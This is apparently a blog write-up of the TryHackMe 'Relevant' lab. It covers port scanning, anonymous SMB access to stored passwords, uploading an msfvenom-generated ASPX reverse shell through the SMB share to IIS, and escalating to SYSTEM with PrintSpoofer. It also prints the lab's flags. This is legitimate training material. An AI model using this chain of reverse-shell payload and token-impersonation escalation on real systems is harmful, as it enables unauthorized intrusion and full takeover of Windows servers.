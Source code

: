 ```yaml
---
layout: single
title: Relevant - TryHackMe
excerpt: "You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation."
date: 2022-12-09
classes: wide
header:
  teaser: /assets/images/thm-writeup-relevant/relevant.png
  teaser_home_page: true
  icon: /assets/images/thm.png
categories:
  - tryhackme
tags:
  - Windows
  - IIS
  - privileged
  - msfvenom
---
```


![](/assets/images/thm-writeup-relevant/relevant1.PNG)

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation.

## Portscan

```
nmap -sCV -p80,135,139,445,3389,49663,49667,49669 10.10.254.100
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 06:31 EST
Nmap scan report for 10.10.254.100     
Host is up (0.047s latency).
                                                          
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server              
|_http-server-header: Microsoft-IIS/10.0
| http-methods:                                                                                                      
|_  Potentially risky methods: TRACE                                                                                 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-12-08T11:23:33
|_Not valid after:  2023-06-09T11:23:33
|_ssl-date: 2022-12-09T11:33:07+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-09T11:32:27+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h36m01s, deviation: 3h34m41s, median: 0s
| smb2-time: 
|   date: 2022-12-09T11:32:30
|_  start_date: 2022-12-09T11:23:49
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-09T03:32:31-08:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

## SMB

The target host on port 445 and 139 runs a SMB Server, we can list the content, cause the smb server has anonymous user enabled.

![](/assets/images/thm-writeup-relevant/smblist.PNG)

We find a shared folder called nt4wrksv that we can access anonymously.

![](/assets/images/thm-writeup-relevant/smbpasswords.PNG)

Checking the content of passwords.txt file we can see 2 base64 encoded passwords, if we decode them, we get a pair of usernames and passwords.

![](/assets/images/thm-writeup-relevant/smbdecoded.PNG)

If we try to acces the machine with this credentials, we realize that they are not valid. At this point we need to start looking for another attack vector.

## Web

Checking the nmap scan, we can see that the machine is hosting a web server on port's 80 and 49663, that we can access.

![](/assets/images/thm-writeup-relevant/default.PNG)

Both ports have the default IIS template, we can use a subdirectory enummeration tool like ffuf,wfuzz or gobuster in order to discover new files on the server.

`ffuf  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://X.X:X.X:49663/FUZZ -mc 200,301,303`

![](/assets/images/thm-writeup-relevant/ffuf.PNG)

The subdirectory name in IIS, is the same as the shared resource in the smb server, they may be the same, so let's try to upload something into the smb folder and browse it in IIS.

![](/assets/images/thm-writeup-relevant/hellotxt.PNG)

As we can see below, we can acces the file that we just added into the SMB folder, this means that we can upload and execute files in the webserver.

![](/assets/images/thm-writeup-relevant/iistxt.PNG)

## Exploitation

IIS uses .asp and .aspx shell files to execute scripts, so im going to create a reverse shell payload with msfvenom in order to gain acces to the machine.

`sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOURIP LPORT=LOCALPORT -f aspx -o reverse.aspx`

![](/assets/images/thm-writeup-relevant/msfvenom.PNG)

Once we have the payload in the SMB folder we can start a netcat listener and execute the reverse.aspx file on the web browser, and we retrive the reverse shell.\ 
I used curl for this, but you can use your web browser.

`curl -X GET http://10.10.36.237:49663/nt4wrksv/reverse.aspx`

![](/assets/images/thm-writeup-relevant/netcat.PNG)

We can now go to Bob's desktop and retrive the user.txt 

![](/assets/images/thm-writeup-relevant/flag.PNG)

`user.txt: THM{fdk4ka34vk346ksxfr21tg789ktf45}`

## Priv Esc

Now we have a shell in the machine, but we are not a privileged, our goal is to reach system user, so we need to find a way of scalate privileges. There are several ways of doing this, I will sow you the coolest one.

First of all, let's check our privileges as "apppool\defaultapppool" service account user. We can see that SeImpersonatePrivilege is enabled.

![](/assets/images/thm-writeup-relevant/priv.PNG)

If we search at [Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege-3.1.1) we find 3 ways of exploting this privilege, juicy-potato, RogueWinRM (needs winrm disabled), SweetPotato and PrintSpoofer. 

Im going to use the PrintSpoofer [exploit](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

As we did with the .aspx file, upload the exploit in the smb folder.
Once we uploaded the exploit we can use dir to find it.

![](/assets/images/thm-writeup-relevant/dir.PNG)

The last step is to execute the exploit, in my case I will use `PrintSpoofer64.exe -i -c cmd` to spawn a system shell.

![](/assets/images/thm-writeup-relevant/execute.PNG)

Now we are executing commands as "nt\authority system", navigate to Administrator Desktop to retrive the root.txt

![](/assets/images/thm-writeup-relevant/root.PNG)

`root:THM{1fk5kf469devly1gl320zafgl345pv}`